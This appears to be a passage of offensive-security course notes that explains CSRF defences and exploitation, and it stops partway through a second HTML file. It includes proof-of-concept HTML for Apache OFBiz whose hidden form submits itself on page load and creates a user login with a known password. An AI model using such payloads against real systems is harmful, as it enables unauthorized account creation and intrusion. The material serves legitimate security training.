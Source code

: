 The "double submit" approach uses a hidden input field that contains the CSRF token value. Similar to the "cookie to header" approach, the web application can validate the cookie value matches in the input field value. One benefit of this approach is that JavaScript does not need access to the cookie containing the CSRF token. Additionally, the web application does not need to maintain a list of which tokens it has generated. It simply validates the values on any given request match.

###### Exploiting CSRF

One example is to place the URL that will execute the CSRF attack in an image tag. A browser will send a GET request for image tags. Attackers can leverage simple content injection vulnerabilities to create persistent CSRF attacks that target all users of the application via HTML tags that are essentially invisible, such as images or iFrames with no size.

Sending a POST request can be more difficult. We would need to trick the user into loading an HTML form that uses JavaScript to submit itself on the load event. This approach also restricts what content-types and HTTP methods we can use. For example, an HTML form cannot send JSON data natively. Standard HTML forms can only send GET and POST requests.

JavaScript APIs, such as XMLHttpRequest1 (XHR) and Fetch, can send requests with arbitrary HTTP methods and content-types. However, when used in this way, these APIs will send a preflight2 request to determine if Cross-Origin Resource Sharing (CORS) is enabled on the target server. We will discuss CORS later.

1
(Wikipedia, 2021), https://en.wikipedia.org/wiki/XMLHttpRequest ↩︎

2
(Mozilla, 2021), https://developer.mozilla.org/en-US/docs/Glossary/Preflight_request ↩︎



##### Apache OFBiz

ofbiz1.html

```
<html>
<body onload="document.forms['csrf'].submit()">
  <form action="https://ofbiz:8443/webtools/control/createUserLogin" method="post" name="csrf">
	<input type="hidden" name="enabled">
	<input type="hidden" name="partyId">
	<input type="hidden" name="userLoginId" value="csrftest">
	<input type="hidden" name="currentPassword" value="password">
	<input type="hidden" name="currentPasswordVerify" value="password">
	<input type="hidden" name="passwordHint">
	<input type="hidden" name="requirePasswordChange" value="N">
	<input type="hidden" name="externalAuthId">
	<input type="hidden" name="securityQuestion">
	<input type="hidden" name="securityAnswer">
  </form>
</body>
</html>
```

ofbiz.html

```
<html>
<head>
<script>
  function submitForms() {
    document.forms['csrf'].submit();
    document.forms['csrf2'].submit();
    return false;
  }
</script>
</head>
<body onload="submitForms();">
  <form action="https://ofbiz:8443/webtools/control/createUserLogin" method="post" name="csrf">
```